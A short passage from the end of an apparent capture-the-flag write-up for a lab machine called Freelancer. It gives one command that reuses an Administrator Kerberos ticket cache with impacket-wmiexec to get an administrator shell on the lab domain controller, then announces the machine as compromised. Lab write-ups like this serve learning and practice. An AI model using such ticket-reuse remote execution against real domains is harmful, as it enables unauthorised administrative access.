 We can now Login as `Administrator`.   

```bash
KRB5CCNAME='Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache'  faketime "$(ntpdate -q $ip | cut -d ' ' -f 1,2)" impacket-wmiexec -no-pass -k freelancer.htb/administr
ator@dc.freelancer.htb
```

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241107000918.png" alt="1" style="width:700px; height:auto;">
<br/>

The machine was `pawned` successfully.  

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241107001127.png" alt="1" style="width:700px; height:auto;">
<br/>



